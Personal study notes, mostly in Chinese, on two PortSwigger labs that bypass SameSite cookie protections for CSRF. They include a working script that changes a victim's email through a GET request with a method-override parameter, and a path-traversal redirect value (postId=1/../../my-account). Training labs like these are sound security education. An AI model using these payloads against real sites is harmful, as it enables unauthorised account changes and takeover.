 ## Lab: SameSite Lax bypass via method override

| Dimension | Description                                                                                                                      |
| --------- | -------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#bypassing-samesite-lax-restrictions-using-get-requests |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override            |

我覺得這題的答案有點出乎我的意料之外，不過文章內確實是有講到啦...

In practice, servers aren't always fussy about whether they receive a `GET` or `POST` request to a given endpoint, even those that are expecting a form submission.

```html
<script>
  document.location =
    "https://0aeb002e03553e06816ec662004b0072.web-security-academy.net/my-account/change-email?email=wiener10@normal-user.net&_method=POST";
</script>
```

原本的表單長這樣

```html
<form
  class="login-form"
  name="change-email-form"
  action="/my-account/change-email"
  method="POST"
>
  <label>Email</label>
  <input required="" type="email" name="email" value="" />
  <button class="button" type="submit">Update email</button>
</form>
```

如果說後端可以同時接受 GET 跟 POST 我還可以理解，我確實有看過一些比較古早的 PHP 網站，可以用 POST Method 去請求網頁，但這題答案的 payload 是直接把 request body 攤平到 querystring，實務上真的會有後端的檢核這麼寬鬆嗎？我是從來沒遇過...但這題的概念是想要表達，`SameSite: Lax` 的情況，用 GET Method + Top-Level Navigation 還是會傳送 Cookie

## Lab: SameSite Strict bypass via client-side redirect

| Dimension | Description                                                                                                                     |
| --------- | ------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#bypassing-samesite-restrictions-using-on-site-gadgets |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect   |

這題我找了很久，找不到 Open Redirect 的漏洞，我以為會是 `?redirect=xxx` 這種類型的，結果翻了首頁,評論頁,登入頁,個人帳戶頁，都沒在 `<script>` 看到任何東西，後來直接參考答案（畢竟我解 Lab 是要學習新手法，不是在那邊花時間找漏洞），Open Redirect 的注入點是在評論完成頁的 Path Traversal `/post/comment/confirmation?postId=1/../../my-account`

於是我查看評論完成頁 `/post/comment/confirmation` 的 js，還真的有弱點
